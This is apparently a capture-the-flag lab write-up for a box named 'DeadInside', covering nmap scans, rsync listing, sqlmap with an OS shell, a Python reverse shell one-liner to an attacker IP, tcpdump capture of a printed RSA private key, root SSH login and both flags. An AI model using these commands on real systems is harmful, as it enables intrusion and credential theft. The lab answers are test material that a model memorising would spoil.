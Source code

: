 # DeadInside

## Enumeration
```bash
└─$ nmap -A -p- -sC -T4 10.10.250.34 -oX nmap.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 11:10 BST
Nmap scan report for 10.10.250.34
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

### I download all the files that I found

```bash
└─$ rsync -av --list-only rsync://10.10.250.34:873/
Conf All Confs

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/
...
access.conf

└─$ rsync -av --list-only rsync://10.10.250.34:873/Conf/access.conf access.conf
cat access.conf 
```
### I've changed the contents of the webapp.ini file because on the website it says something like "keep the door closed" and in the file a door field is here with writing closed.
```python
webapp.ini

door = opened
```

### Exploit the sql database to got a shell as rick

sqlmap -u http://10.10.250.34/door/config.php --level 5 --risk 3 --batch -D db --os-shell --forms
```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.37.214",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### upload pentestMonkey in the box, reverseshell to get a shell as rick

## User FLAG

```cat /home/rick/user.txt``` : EPI{W3_r_73h_w4lk1n9_D34D}

## Privilege Escalation

### linpeas = tcpdump

tcpdump -i lo -w file.cap
```bash
cat file.cap :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtb/gJ/0hjWELlcYLzexponv3FWbz1r4g9w4htwEWqvbFfoxb
JKPi0xzn+gTEqi8I0uKW+gILfRG03gtv2RrMYPNK2exLuWqnb9ZPyLD3xETtollU
lR5DbWiEAtIFLOItdtXrP7hF0fi2Vc3H+4bFEhLPHzgwH068Xs5n+YviOFz4XOtW
DZOEA6XrpqcxPaMhksCcTPi9clvrioOyKEpnXTXQzWuma0pckclYvbh4vEwQp5n0
/rpgEMT7MRMT3CsDEfZOS2oAOfswc9WzDlbrQ7ghuHk2EMHrA/sI5M0N4GWeE12v
lld3CAKWp9MkB9g84qJdmt5QFk4tLYh08qaaeQIDAQABAoIBAHww5oysrXab73yi
XYKSnwQGTSn0tX3xYTkwEN2qAsFD6mO0qLr6uY2kXOc8xt27Uf44Ew42w37s0HhB
vGXPqAQ/etA6ZOwH8u26tb3fHw6gQvkCrYdPrKdgGYSL2jl3O7XOKvfZhOwbVQyA
lrxKtPLKo3kjvc5G0PS/edDNQwFbbjA0zf43GOFfW/ahOQu82iVfkDtrjmTnqB5/
O4pjmkNuTR9E6BStL5vZJoLK0W5lc9bgHa1TgyRzkK8iKKen+kohWrJUjQnK0f8z
/LTZuNwuOWZ60ckaQPJhAqdRbXOJ5gm0r9hStSN+ncKOYlLSdFz9Opskp4aDTGQa
zEzzjGECgYEA6VFeVzL2UcP+JCgtpBZHpRNUiCO7yjvfLFIeeDJKY1sKefLSz4mb
KiSFodWf1nsZydhRM25pXWfk17X7up/ocgs8gCkOQAiYM8AkzZ60egiehPD4Pv4h
cPJMSNEoq1cTlOJFmmPMk5dwj8kp12IkSgFNlLRd7vD9yVJbkC1MP20CgYEAx2sd
awpIu7T4P+ttFGQi+/nrNNTZ4fr9IrMK7VObuF9HG3YH3t1DkEOqk5zerYVVP9J5
bIbsSv9dBysWqe6Ftrtzrk5bhpRIy4E/etEoMGqzmMA1SZkI8P5E9AzN/F03C2xq
p9s2fexqdf5RpdGujpSJda0fZki01jDznHUjg70CgYEAmk0zxRtxB5ZE5wijVpdd
fnCQQRDQyuhZqegNOpSX2amF/ix2+sYYlgBdWC/9a00yOukSmp70k8936qjx9/R1
N6bythdw0yxb7C2wqUPCO8qje2wZ4R8UYqv7g1TAPsBxtM8IFRjXXOyUhqMVRtoj
AcZm1meKj9FVJeWPpIQwnukCgYB7UGN6o3tih3/TlvN23o07n8mwe8bYFOqfoHOr
Wj46/r/r3Ur0p4J2HUHH0gNo7cBPnQl08OIBZnPSUPTM1DBfVP8t1EqIp/1zylLE
0b22YuT4GjNZdYav76wX9isSWVoGeF5jugyyRZV3rXIzxbvZc0SlPg7ioycgJFkg
cNcrSQKBgB2vGOzFapRM2zfukNXmtHLrO/+U6yXwj+VuJtDO/lwdORCaQGNEobs4
U8NEWvUEM0vdvJCKwpFLK784YKug4LUhJlc1DYRYxF9Ct+er/mQKuFd/tiSvKoqz
gOFPkMMr6+LJjvzfFZqaGwHFuT0W44THPSRNfuWaoTqnF/7KhrWy
-----END RSA PRIVATE KEY-----

chmod 600 id_rsa
ssh -i id_rsa root@<IP>

cd /root
```
## Root FLAG

```cat root.txt``` : EPI{9R0w1N9_Up_12_93771n9_u53D_70_73H_W0rld}

### Write up to help me for the box
source : https://related.cupprs.com/metamorphosis/
